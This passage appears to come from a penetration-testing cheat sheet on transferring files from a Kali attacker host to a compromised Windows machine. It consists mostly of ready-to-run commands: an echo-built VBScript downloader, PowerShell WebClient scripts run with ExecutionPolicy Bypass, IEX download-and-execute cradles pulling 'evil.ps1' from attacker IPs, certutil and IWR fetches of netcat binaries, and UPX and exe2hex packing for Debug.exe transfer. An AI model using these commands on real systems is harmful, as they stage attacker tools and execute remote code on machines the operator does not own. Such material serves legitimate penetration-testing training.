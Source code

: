 ```cmd
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
cscript wget.vbs http://[kali ip]/[file] [file]
```

### Powershell via HTTP
Windows 7, 2008 and above

Slow speed of 20kb/sec, but most readily available on most modern Windows OS

On Kali:
```sh
service apache2 start # /var/www/html # DIRECTORY HOSTING FILES
# or
python -m SimpleHTTPServer # current working dir will be DIRECTORY HOSTING FILES
```

On Windows:
```cmd
echo $storageDir = $pwd >wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[kali ip]/[file]" >>wget.ps1
echo $file = "[file]" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
```cmd
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.177:8000/hello.ps1') 
```
```cmd
iex(new-object net.webclient).downloadstring("http://192.168.42.42/evil.ps1)
```
```cmd
certutil.exe -urlcache -split -f "http://192.168.42.42/nc.exe" nc.exe
```
```cmd
IWR -Uri "http://192.168.42.42/n64.exe" -Outfile "n64.exe"
```

### Debug.exe
Older 32-bit Windows

Limited to 64kb, slow speed of 3kb/sec, limited to the connection speed of the shell

On Kali:
```
upx -9 [.exe] # pack and compress a binary you wanna transfer
ls -lah [.exe] # check whether it is less than 64kb
exe2hex [.exe] # alternatively, `wine /usr/share/windows-binaries/exe2bat.exe [.exe] [.bat]`
cat [.bat] | xclip -selection c # if remotely accessing kali, use `ssh -X`, a bit finicky though
```
